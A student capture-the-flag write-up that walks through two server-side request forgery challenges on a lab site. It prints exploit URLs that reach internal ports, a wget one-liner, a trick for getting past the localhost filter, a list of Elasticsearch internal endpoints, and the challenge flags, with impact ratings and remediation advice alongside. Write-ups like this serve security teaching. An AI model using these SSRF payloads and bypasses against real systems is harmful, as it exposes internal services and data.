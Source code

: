```yaml
---
layout: post
title: COMP6843 - Extended Break 4
date: 2018-05-20
categories: ['writeup']
---
```

# Server Side Request Forgery: Local Files
> Target: https://ssrfsquared.ns.agency/  

___
### Proof of Concept

1. Intercept the requests made between the front and back end of the site during the initial load
2. Notice that there is a request for   
   ```
   https://ssrfsquared.ns.agency/static?r=http%3A%2F%2F127.0.0.1%3A9447%2Fstyles.css
   ```
   which can also be confirmed by viewing the source of the page
3. This becomes an entry point for an attacker to probe the internal network
4. Some files return the same content when accessed externally or internally such as `index.html` or `styles.css`
5. When viewing   
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/styles.css`   
   there is a hint that something else is on the server
6. Logically we try   
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag`  
    and it gives us the flag  
   ```
   (wget -qO- https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag)
   ```
```
 sectalks{i_wonder_what_else_is_running_locally}
 ```
Extra Info:  
- not sure why but `localhost` gives the message `big sorry, we broke localhost, try 127.0.0.1` but this can be circumvented by using the following: `127.0.0.1`, `0`, `Localhost` / `lOcAlHoSt` etc 

___
### Impact 
**P2 - High**

Attackers can access localhost and read files stored in the working directory of the application, which may contain data that is not meant for public viewing. In this case only static files are retrieved, but in a real world scenario an attacker may be able to find other files (eg. _.php_ files) which may lead to code execution. If combined with a directory traversal vulnerability, the attacker can also read any files in the entire filesystem with the right permissions.

___
### Remediation 

Avoid querying files directly through URL requests using localhost, or perform server-side validation on the URLs requested if it cannot be avoided. Any important files in the working directory should have their permissions set so that they are not viewable by the web application if not necessary _(Principal of Least Privilege)_.  
  
<div class="divider"></div>
# Server Side Request Forgery: Local Services
> Target: https://ssrfsquared.ns.agency/

### Proof of Concept

The search functionality of the site is powered by _Elastic Search_, which serves up different Phrack articles.
There is also a flag stored in the service somewhere, as searching for `FLAG` or `flag` would reveal
```
The flag is sectalks{REDACTED}
```
hinting that it should be accessed locally. 

1. By doing port enumeration via GET requests or simply by guessing common port numbers, we can find the service at  
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9200/`  
   <br/>
2. Utilizing the `_search` function we can search for the flag:  
   `https://ssrfsquared.ns.agency/static?r=http://0:9200/_search?q=sectalks`  returns :  
```
   {
  "took": 1,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "failed": 0
  },
  "hits": {
    "total": 1,
    "max_score": 8.236906,
    "hits": [
      {
        "_index": "phrack",
        "_type": "article",
        "_id": "976",
        "_score": 8.236906,
        "_source": {
          "content": "The flag is sectalks{ssrf_for_fun_and_profit}",
          "title": "Flag",
          "author": "sy + grc",
          "issue": 0,
          "number": 0
        }
      }
    ]
  }
}
```  

3. The flag can also be found by enumerating all phrack articles   
    (Although not recommended)     
    `https://ssrfsquared.ns.agency/static?r=http://0:9200/phrack/article/976`  
 
<br/> 
Extra Info:  
- A lot of additional information can be found by executing any of the following commands 
```
http://0:9200/_cluster/settings
http://0:9200/_cluster/state
http://0:9200/phrack/article/14
http://0:9200/_tasks/
http://0:9200/_nodes?pretty=true
http://0:9200/_mapping
http://0:9200/_cat&?pretty=true
```

___


### Impact 
**P2 - High**

Attackers can enumerate port numbers and access services that are not public-facing, which might lead to the disclosure of data or unauthorized access to the internal network. This can allow for lateral movement or even worse privilege escalation, depending on the access controls within the internal network.

___
### Remediation

Similar to above, avoid sending requests to the internal network and to perform validation for requests if necessary. It is possible to implement a _Web Application Firewall_ (WAF) but determined attackers may be able to bypass the WAF with specially crafted URLs (eg. by double encoding or using multibyte characters)

Elastic Search by itself does not support authentication so another method of solving this problem is to never assume the internal network is safe, and to install proper access controls on any/all internal services. 

